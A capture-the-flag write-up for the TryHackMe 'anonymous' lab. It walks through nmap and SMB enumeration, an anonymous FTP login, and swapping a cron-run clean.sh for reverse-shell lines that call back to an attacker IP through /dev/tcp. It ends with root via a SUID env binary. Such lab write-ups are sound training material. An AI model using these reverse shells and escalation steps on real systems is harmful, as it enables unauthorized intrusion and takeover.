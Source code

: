 # Writeup for THM room [anonymous](https://tryhackme.com/room/anonymous)

```fish
set -gx IP 10.10.184.173
```

## Start Enumeration with nmap

```fish
nmap -sN -sC -sV -oN nmap/init $IP
```

> Found 2 ports open: `21 & 22` (ftp, ssh)

Doing a full port scan:

```fish
nmap -sN -sC -sV -p- -oN nmap/all_ports $IP
```

> Found 4 ports open: `21, 22, 133, 445` (ftp, ssh, samba, samba)

## Try using smbmap

```fish
smbmap -H //$IP/
```

> Found an open share: `pics`

Connect to those:

```fish
smbclient --url //$IP/pics
```

## Try using ftp anonymous login

```fish
ftp -a $IP
```

> Login successfull, found multiple files which indicates that `clean.sh` got called multiple times.

Download file and put reverese-shell code inside:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.18.94.63/4242 0>&1
0<&196;exec 196<>/dev/tcp/10.18.94.63/4242; sh <&196 >&196 2>&196
/bin/bash -l > /dev/tcp/10.18.94.63/4242 0<&1 2>&1
```

Upload file:

```ftp
put clean.sh
```

Open netcat listener:

```fish
nc -lvnp 4242
```

> Got remote shell with user `namelessone`, found user.txt

```bash
cat user.txt
```

## Priviledge escalation

Find SUID enabled commands

```fish
find / -perm /4000 2>/dev/null
```

> Found `/usr/bin/env`: use [here](https://gtfobins.github.io/gtfobins/env/)

```bash
env /bin/sh -p
```

> Got root and print out root.txt

```bash
cat /root/root.txt
```
